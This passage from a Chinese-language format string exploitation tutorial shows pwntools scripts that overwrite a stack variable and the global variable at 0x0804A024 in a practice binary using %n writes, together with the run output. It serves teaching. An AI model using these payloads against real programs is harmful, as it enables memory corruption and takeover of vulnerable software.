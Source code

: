 ```python
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

結果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 74806
0xfffd8cdc
܌��%012d%6$n
܌��-00000160648modified c.
```

### 覆蓋任意地址內存

#### 覆蓋小數字

首先，我們來考慮一下如何修改data段的變量爲一個較小的數字，比如說，**小於機器字長的數字**。這裏以2爲例。可能會覺得這其實沒有什麼區別，可仔細一想，真的沒有麼？如果我們還是將要覆蓋的地址放在最前面，那麼將直接佔用機器字長個(4或8)字節。顯然，無論之後如何輸出，都只會比4大。

> 或許我們可以使用整形溢出來修改對應的地址的值，但是這樣將面臨着我們得一次輸出大量的內容。而這，一般情況下，基本都不會攻擊成功。

那麼我們應該怎麼做呢？再仔細想一下，我們有必要將所要覆蓋的變量的地址放在字符串的最前面麼？似乎沒有，我們當時只是爲了尋找偏移，所以才把tag放在字符串的最前面，如果我們把tag放在中間，其實也是無妨的。類似的，我們把地址放在中間，只要能夠找到對應的偏移，其照樣也可以得到對應的數值。前面已經說了我們的格式化字符串的爲第6個參數。由於我們想要把2寫到對應的地址處，故而格式化字符串的前面的字節必須是

```text
aa%k$nxx
```

此時對應的存儲的格式化字符串已經佔據了6個字符的位置，如果我們再添加兩個字符aa，那麼其實aa%k就是第6個參數，$nxx其實就是第7個參數，後面我們如果跟上我們要覆蓋的地址，那就是第8個參數，所以如果我們這裏設置k爲8，其實就可以覆蓋了。

利用ida可以得到a的地址爲0x0804A024（由於a、b是已初始化的全局變量，因此不在堆棧中）。

```asm
.data:0804A024                 public a
.data:0804A024 a               dd 7Bh
```

故而我們可以構造如下的利用代碼

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
